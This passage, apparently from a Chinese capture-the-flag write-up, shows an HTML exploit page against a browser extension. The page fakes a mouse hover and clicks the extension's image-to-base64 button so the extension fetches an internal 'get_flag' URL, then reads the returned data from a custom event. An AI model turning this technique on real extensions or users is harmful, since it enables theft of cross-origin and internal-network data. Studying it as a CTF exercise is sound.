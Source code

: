 查看 contentScript.bundle.js：

```javascript
chrome.runtime.sendMessage({
    action: "imgUrl2Base64_send",
    message: e
})
```

好吧，我们不是插件，拿不到 `chrome.runtime`，老实模拟移动到图片上然后点击吧。注意需要先给图片一个宽高让它展示出来。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      img {
        width: 400px;
        height: 400px;
        display: block;
      }
    </style>
    <script>
      // receive message we want
      window.addEventListener('sendDataToContentScript', (e) => {
        document.title = e.detail.message
      })

      // trigger extension event
      const triggerEvent = () => {
        const element = document.querySelector('#img')

        const rect = element.getBoundingClientRect()

        const x = rect.right
        const y = rect.top

        const moveEvent = new MouseEvent('mousemove', {
          bubbles: true,
          cancelable: true,
          clientX: x,
          clientY: y,
        })
        document.elementFromPoint(x, y).dispatchEvent(moveEvent);

        const button = document.querySelector('.index-module__imgSearch_hover_rightWrapper--VZGcY')
        button.click()
      }
      setTimeout(() => {
        triggerEvent()
      }, 1000)
    </script>
  </head>
  <body>
    <!-- <img id="img" src="http://127.0.0.1:9081" /> -->
    <img id="img" src="http://127.0.1.14:1919/get_flag" />
  </body>
</html>
```
